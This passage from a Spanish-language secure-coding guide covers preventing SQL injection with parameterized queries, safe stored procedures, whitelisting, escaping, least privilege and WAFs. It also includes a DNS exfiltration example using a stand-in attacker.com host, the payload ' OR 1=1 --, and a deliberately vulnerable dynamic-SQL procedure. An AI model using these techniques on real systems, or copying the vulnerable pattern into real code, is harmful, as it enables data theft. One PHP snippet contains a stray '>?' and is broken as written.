En este caso, el servidor de la base de datos realiza una consulta a un dominio DNS como: 5.7.35.attacker.com

El atacante puede ver esta consulta en su servidor DNS y extraer la información.
----

image::assets/oob/OOB.png[OOB,align=center]

== ¿Cómo prevenir?

=== 1. Parametrizar

Las consultas parametrizadas (prepared statements) con variables asociadas (variable binding), son la forma correcta para escribir sentencias SQL. Para ello se define primero todo el código SQL y después se asocia cada parámetro variable. Este tipo de construcción permite a la base de datos distinguir entre código (estructura) y datos (valores) sin importar qué entradas proporcionó un usuario.

Nuestra página está escrita con PHP usando solo una consulta sin preparar. Podemos observar en el siguiente ejemplo cómo sería una consulta preparada en PHP:

.Consulta preparada
[%collapsible]
====
[source,php]
----
<?php
$sentencia = $mbd->prepare("INSERT INTO REGISTRY (name, value) VALUES (:name, :value)");
$sentencia->bindParam(':name', $nombre);
$sentencia->bindParam(':value', $valor);

// insertar una fila
$nombre = 'uno';
$valor = 1;
$sentencia->execute();

// insertar otra fila con diferentes valores
$nombre = 'dos';
$valor = 2;
$sentencia->execute();
?>
----
====

=== 2. Procedimientos almacenados

Los procedimientos almacenados (stored procedures) pueden ayudar a limitar el riesgo asociado a la inyección de código SQL. Estos son código guardado en la base de datos que pueden verse como funciones reutilizables y de acceso rápido por el motor de base de datos. Los procedimientos almacenados también pueden comprobar el tipo de los parámetros de entrada, impidiendo que se introduzcan datos que incumplan el tipo que el campo está diseñado para recibir.

Sin embargo, si fueron programados de forma insegura con ejecución dinámica de SQL el problema seguirá allí. Podemos ver un ejemplo de esto:

.Procedimiento almacenado vulnerable
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    DECLARE @query NVARCHAR(MAX);
    SET @query = 'SELECT * FROM products WHERE category = ''' + @category + ''' AND released = 1';
    EXECUTE sp_executesql @query;
END
----
====

Al crear una consulta internamente con un valor dinámico que afecta a la estructura, la situación es la misma que invocando SQL por programación. El procedimiento almacenado podría verse así con el parámetro como valor y no como parte de la estructura de la sentencia:

.Procedimiento almacenado 
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    SELECT * FROM products WHERE category = @category AND released = 1;
END
----
====

=== 3. Validación contra valores permitidos 

Se usa cuando no se puede usar directamente una consulta parametrizada para protegernos contra inyecciones SQL. Esto pasa en ciertos casos donde el valor que viene del usuario no puede ir como parámetro, porque no es un dato como un número o texto, sino que se trata de partes estructurales de la consulta SQL. Por ejemplo, con el nombre de una tabla o columna, o si el orden en una cláusula ORDER BY será ascendente (ASC) o descendente (DESC). En esta situación la defensa más apropiada es validar las entradas de usuario y/o rediseño de la sentencia SQL.

No se debe permitir que el usuario escriba directamente un nombre de tabla o columna que se inserte tal cual en la consulta SQL, porque eso es muy peligroso. Un ejemplo de cómo validar sería usando un switch, como este ejemplo en PHP:

.White List
[%collapsible]
====
[source,php]
----
<?php
$unsafeUserParameter = $_GET['table'] ?? '';

$tableName = '';

// Validamos con una lista de opciones válidas
switch ($unsafeUserParameter) {
    case 'clients':
        $tableName = 'table_clients';
        break;
    case 'sellers':
        $tableName = 'table_sellers';
        break;
    ...
    default:
        throw new Exception("Valor inesperado proporcionado para el nombre de la tabla.");
>?
}

$query = "SELECT * FROM $tableName";
----
====

* Si el usuario manda el valor "clients", lo convierte a "table_clients".
* Si manda "sellers", lo convierte a "table_sellers".
* Si manda cualquier otro valor, lanzas un error.

De esta forma se asegura de que el nombre que se usa en la consulta sea uno de los que se controlan y no algo malicioso.

=== 4. Escapar todas las entradas de usuario 

Esta es una forma de protegerse contra inyecciones SQL, pero no es la más recomendada. De hecho, solo se debe usar si no se puede aplicar otras defensas mejores, como las consultas parametrizadas o la validación contra valores permitidos.

Escapar significa modificar (o transformar) los datos que vienen del usuario para que no puedan romper la consulta SQL ni ejecutar código malicioso. Por ejemplo, si un usuario escribe *' OR 1=1 --*, al escapar esa entrada, la comilla *'* y otros caracteres peligrosos se transforman en versiones seguras que se interpretan como texto normal y no como parte del código SQL.

Esto se puede realizar con bibliotecas en el caso de java. En el caso de Mysql, podemos ver lo siguiente:

Existen dos modos específicos para realizar esto en Mysql:

. *ANSI_QUOTES SQL*: Escapar todos los caracteres *'*, con *''*.

. *MySQL Mode* que hace lo siguiente:
----
NUL (0x00) --> \0
BS  (0x08) --> \b
TAB (0x09) --> \t
LF  (0x0a) --> \n
CR  (0x0d) --> \r
SUB (0x1a) --> \Z
"   (0x22) --> \"
%   (0x25) --> \%
'   (0x27) --> \'
\   (0x5c) --> \\
_   (0x5f) --> \_

todos los demás caracteres no alfanuméricos con valores ASCII
inferior a 256 --> \c donde 'c' es el carácter no alfanumérico original.
----

Otra forma de hacerlo más seguro es convertir el texto del usuario a hexadecimal. Si un atacante intentara inyectar con la típica comilla simple ' y un espacio, el SQL final se vería:

[source,sql]
----
SELECT * FROM products WHERE hex_encode(category) = '2720...'
----

27 es el código ASCII (en hexadecimal) de la comilla simple y 20 el del espacio en blanco. Como la transformación solo genera dígitos numéricos y letras de la A a la F, ningún caracter especial puede causar la inyección.

=== 5. Aplicar el mínimo privilegio:

El principio de menor privilegio consiste en otorgar a la cuenta de base de datos utilizada por una aplicación solo los permisos estrictamente necesarios para su funcionamiento, evitando el uso de cuentas con privilegios elevados como administrador. Esto reduce el impacto de un posible ataque de inyección SQL, ya que limita lo que un atacante podría hacer si lograra explotar la vulnerabilidad. 

Por ejemplo, si la app solo necesita leer datos, se deben otorgar solo permisos de lectura, evitando accesos innecesarios como modificación de tablas o ejecución de comandos críticos. También se recomienda no ejecutar el servicio de base de datos con permisos elevados en el sistema operativo.

=== 6. Web Application Firewall (WAF)

Cómo ya hemos visto en anteriores pecados vuelve a aparecer el WAF, ya que es una herramienta de seguridad que filtra, monitorea y bloquea tráfico HTTP identificado como malicioso que viaja hacia una aplicación que se intenta proteger. Obviamente, no hay que confiarse y apostar solo por esto, ya que los problemas raíz de la aplicación no se solucionan con un WAF y continuamente se hacen públicas técnicas de bypass para WAF de distintas tecnologías y proveedores. 

Esto es solo una herramienta complementaria -> https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF[SQL Injection Bypassing WAF].

----
"Si piensas que la tecnología puede resolver tus problemas de seguridad, entonces no entiendes los problemas ni entiendes la tecnología."

— Bruce Schneier
----